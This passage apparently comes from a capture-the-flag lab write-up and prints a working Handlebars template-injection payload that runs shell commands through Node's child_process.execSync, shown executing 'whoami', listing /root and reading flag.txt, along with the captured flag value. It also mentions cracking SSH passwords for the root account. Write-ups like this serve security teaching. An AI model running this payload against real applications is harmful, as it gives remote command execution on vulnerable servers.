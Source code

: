 ```shell
{{/with}}
```

- Then by adding the execSync with whoami in order to find who is currently logged in
```shell
{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
- Runnig the code give the user name root this gives us a username to access via SSH with password cracking
```
  We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            root

```

- Searching ls /root -ll will show where the flag is located 
```shell
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            total 12
drwxrwxr-x 6 root root 4096 Feb 28  2022 Backend
-r-------- 1 root root   33 Feb 10  2022 flag.txt
drwxr-xr-x 3 root root 4096 Feb 28  2022 snap

```
- By using the cat /root/flag.txt we get the flag
```shell
6b258d726d287462d60c103d0142a81c
```
